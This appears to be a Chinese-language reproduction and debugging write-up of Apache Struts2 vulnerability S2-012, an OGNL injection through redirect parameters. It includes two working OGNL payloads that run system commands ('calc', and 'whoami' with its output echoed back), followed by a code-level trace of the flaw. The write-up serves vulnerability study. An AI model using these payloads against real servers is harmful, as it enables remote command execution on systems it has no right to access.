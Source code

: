 # S2-012 Demo

## Summary

Impact of vulnerability: Remote command execution

Affected Software: `Struts Showcase App 2.0.0` - `Struts Showcase App 2.3.14.2 `

Problem: 在`S2-003`、`S2-005`和`S2-009`中已经解决了`OGNL`表达式解析问题，但是由于它只涉及参数名的防护，没有考虑到参数值注入`OGNL`表达式。因此基于参数名白名单(`acceptableName`)和禁止方法执行(`denyMethodExecution`)的方式只能部分修复漏洞，不能完全解决。

当`action`中配置`result`为`redirect`并且传递了某个参数，在触发`redirect`类型返回时，`Struts2` 获取使用`${name}` 获取其值，在这个过程中会对`name`参数的值执行` OGNL` 表达式解析，从而可以插入任意 `OGNL` 表达式导致命令执行。

## Environment

Struts2 Version: `Struts-2.2.3`

Server: `Tomcat 8.5.53`.

IDE: `idea 2020.1.1 ULTIMATE`

## POC

![{774A45CA-52CB-4B2F-9096-7F548FE0B01F}_20200717095816]({774A45CA-52CB-4B2F-9096-7F548FE0B01F}_20200717095816.jpg)

## Payload

无回显

```java
%{(#context['xwork.MethodAccessor.denyMethodExecution']=false)(#_memberAccess['allowStaticMethodAccess']=true)(@java.lang.Runtime@getRuntime().exec('calc'))}
```

有回显

```java
%{#a=(new java.lang.ProcessBuilder(new java.lang.String[]{"whoami"})).redirectErrorStream(true).start(),#b=#a.getInputStream(),#c=new java.io.InputStreamReader(#b),#d=new java.io.BufferedReader(#c),#e=new char[50000],#d.read(#e),#f=#context.get("com.opensymphony.xwork2.dispatcher.HttpServletResponse"),#f.getWriter().println(new java.lang.String(#e)),#f.getWriter().flush(),#f.getWriter().close()}
```

## Debug

在`ParametersInterceptor`的`doIntercept`方法下断点，提交无回显`payload`触发断点（`calc`方便知道哪行代码执行了`ognl`语句）：

`s2-012/web/WEB-INF/lib/xwork-core-2.2.3.jar!/com/opensymphony/xwork2/interceptor/ParametersInterceptor.class:92`

![setParameters](img/setParameters.jpg)

跟入`setParameters`，可以看到只是检查了参数名是否合法，然后将参数名和参数值放入`newStack`：

```java
		...
		Iterator i$ = params.entrySet().iterator();

        while(i$.hasNext()) { //遍历检查参数名是否合法
            Entry<String, Object> entry = (Entry)i$.next();
            String name = (String)entry.getKey();
            boolean acceptableName = this.acceptableName(name) && (parameterNameAware == null || parameterNameAware.acceptableParameterName(name)); 
            if (acceptableName) {
                acceptableParameters.put(name, entry.getValue());
            }
        }

        ...

        Iterator i$ = acceptableParameters.entrySet().iterator(); 

        while(i$.hasNext()) {
            Entry<String, Object> entry = (Entry)i$.next();
            String name = (String)entry.getKey();
            Object value = entry.getValue();

            try {
                newStack.setValue(name, value); //将合法的参数对放入newStack
            } catch (RuntimeException var16) {
                ...
            }
        }
```

跳回`doIntercept`, 执行`invocation.invoke()`，通过`invokeActionOnly()`获取到了`action`的返回值`redirect`：

![image-20200720112707313](img/invokeActionOnly.png)

跟入`executeResult()`，看看是如何处理`redirect`的：

![image-20200720113107400](img/executeResult.png)

继续跟入`result.execute()` -> `super.execute()` -> `conditionalParse()` -> `translateVariables()`：

经过一波字符串操作，将`ognl`表达式（`name`）提取了出来，并在`stack`中查找到的值进行替换：

![image-20200720114721752](img/translateVariables.png)

继续循环，`name`已经被替换为了`payload`，在执行`stack.findValue()`时执行了ognl表达式。

![image-20200720142038521](img/findValue2.png)

回到execute()函数，进入doExecute()，执行请求转发操作：

s2-012/web/WEB-INF/lib/struts2-core-2.2.3.jar!/org/apache/struts2/dispatcher/StrutsResultSupport.class:60

![image-20200720150512188](img/doExecute.png)

![image-20200720145033650](img/sendRedirect.png)

## Reference

- [S2-0012](https://cwiki.apache.org/confluence/display/WW/S2-012)

- [S2-012 远程代码执行漏洞](https://github.com/vulhub/vulhub/blob/master/struts2/s2-012/README.zh-cn.md)